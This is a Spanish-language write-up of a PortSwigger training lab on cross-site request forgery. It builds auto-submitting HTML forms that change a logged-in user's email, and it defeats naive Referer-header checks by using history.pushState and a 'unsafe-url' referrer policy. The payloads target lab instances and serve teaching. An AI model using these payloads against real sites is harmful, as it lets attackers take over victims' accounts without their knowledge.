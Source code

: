 ```yaml
---
title: "CSRF with broken Referer validation"
description: "Laboratorio de Portswigger sobre CSRF"
date: 2025-03-17 10:11:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CSRF
tags:
  - Portswigger Labs
  - CSRF
  - CSRF with broken Referer validation
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` tiene una funcionalidad de `cambio de correo electrónico` que es `vulnerable` a `CSRF`. Intenta `detectar y bloquear` solicitudes `entre dominios`, pero su `mecanismo de detección` puede ser `evadido`. Para `resolver` el `laboratorio`, debemos usar nuestro `servidor de explotación` para alojar una `página HTML` que realice un `ataque CSRF` y `cambie` el `correo electrónico` del usuario que la visite. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Guía de CSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de CSRF` [https://justice-reaper.github.io/posts/CSRF-Guide/](https://justice-reaper.github.io/posts/CSRF-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CSRF-Lab-12/image_1.png)

Al pulsar sobre `My account` y nos logueamos con la credenciales `wiener:peter`

![](/assets/img/CSRF-Lab-12/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/CSRF-Lab-12/image_3.png)

Aparte de las defensas que emplean los `CSRF tokens`, algunas aplicaciones hacen uso del `HTTP Referer header` para intentar defenderse de los ataques `CSRF`, normalmente `verificando` que la `solicitud` se `originó` desde el `dominio` de la `aplicación`. Este enfoque generalmente es `menos efectivo` y suele ser susceptible de ser `eludido`

El `HTTP Referer header` es una `cabecera de solicitud opcional` que `contiene` la `URL` de la `página web` desde la que proviene una `solicitud`. Normalmente, `los navegadores la agregan automáticamente cuando un usuario desencadena una solicitud HTTP`, ya sea al hacer `click` en un `enlace` o al `enviar` un `formulario`. Existen varios métodos que permiten que `la página desde la que proviene la solicitud retenga o modifique el valor del Referer header`, lo cual, se hace a menudo por razones de `privacidad`

Si nos `abrimos` las `herramientas de desarrollador` de `Chrome` vemos que el atributo `SameSite` tiene el valor `None`

![](/assets/img/CSRF-Lab-12/image_4.png)

`Inspeccionamos` la forma en la que se `crea` el `formulario` de `cambio` de `email` para `usarlo` como `plantilla` a la hora de `construir` nuestro `payload`

![](/assets/img/CSRF-Lab-12/image_5.png)

`Creamos` el `payload` y lo `copiamos` en el `Exploit server`

```
<html>
  <body>
    <form action="https://0a38008204f6d4ef9c0ef998009e00c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
         document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_6.png)

Al hacer `click` en `View exploit` el ataque no funciona y nos `arroja` este `mensaje`

![](/assets/img/CSRF-Lab-12/image_7.png)

Si nos dirigimos a la `extensión` de `Burpsuite Logger++` y revisamos la `petición` que acabamos de realizar, vemos que la cabecera `Referer` hace referencia a nuestro `servidor de exploits`

![](/assets/img/CSRF-Lab-12/image_8.png)

Si nos fijamos en la `petición` que hemos hecho al `principio` de `cambio` de `email`, vemos que esa `sí que ha sido exitosa` y que la `única diferencia` con la actual es el `valor` de la cabecera `Referer`

![](/assets/img/CSRF-Lab-12/image_9.png)

Algunas `aplicaciones` validan el `header Referer` de una forma `ingenua`, lo que permite que sea `evadido`. Por ejemplo, si la `aplicación` verifica que el `dominio` en el `Referer` comienza con un `valor esperado`, un `atacante` puede `colocar` ese valor como un `subdominio` dentro de su propio `dominio`

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la `aplicación` solo `valida` que el `Referer` contiene su `nombre de dominio`, un `atacante` puede `colocar` el `valor requerido` en otra parte de la `URL`

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

Aunque podamos `identificar` este `comportamiento` usando `Burpsuite`, a menudo descubriremos que este `enfoque` deja de `funcionar` al probar nuestro `PoC` en un `navegador`. Esto se debe a que para `reducir` el `riesgo` de que se `filtren datos sensibles` de esta manera, muchos `navegadores` ahora `eliminan` la `cadena de consulta (?vulnerable-website.com)` de la cabecera `Referer` por defecto

Podemos `anular` este `comportamiento` añadiendo la cabecera `Referrer-Policy: unsafe-url` a nuestro `exploit`. Esto garantiza que se envíe la `URL completa`, incluida la `cadena de consulta (?vulnerable-website.com)`

En este caso, la `primera forma` no es viable porque el `servidor de explotación` que nos proporcionan `no lo permite`. Sin embargo, la `segunda forma` sí funciona, ya que la `web` solo valida si el `Referer` contiene el `nombre del dominio`, sin importar si hay `otras cadenas` en la `URL`

![](/assets/img/CSRF-Lab-12/image_10.png)

De acuerdo con la `documentación` de `Mozilla` [https://developer.mozilla.org/en-US/docs/Web/API/History/pushState](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState) con `history.pushState(state, unused, url)`, podemos `cambiar` la `URL` en el `historial` del `navegador`

```
<html>
  <body>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_11.png)

Al hacer `click` en `View exploit` nuevamente el ataque no funciona y nos `arroja` este `mensaje` otra vez

![](/assets/img/CSRF-Lab-12/image_12.png)

Si `inspeccionamos` la `petición` vemos que no se ha añadido `/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net` a la `URL`

![](/assets/img/CSRF-Lab-12/image_13.png)

Como mencionamos anteriormente, podemos `anular` este `comportamiento` usando la cabecera `Referrer-Policy: unsafe-url`. Para indagar más profundamente podemos `consultar` la `documentación` de `Mozilla` [https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy](https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy)

```
<html>
  <body>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_14.png)

Si pulsamos sobre `View exploit` veremos que `no nos arroja ningún error` y nos `cambia` el `email` correctamente. Para `completar` el `laboratorio` debemos `cambiar` nuestro `email` o cambiar el `email` usado en el `payload` debido a que `no puede haber dos usuarios con el mismo email`

![](/assets/img/CSRF-Lab-12/image_15.png)
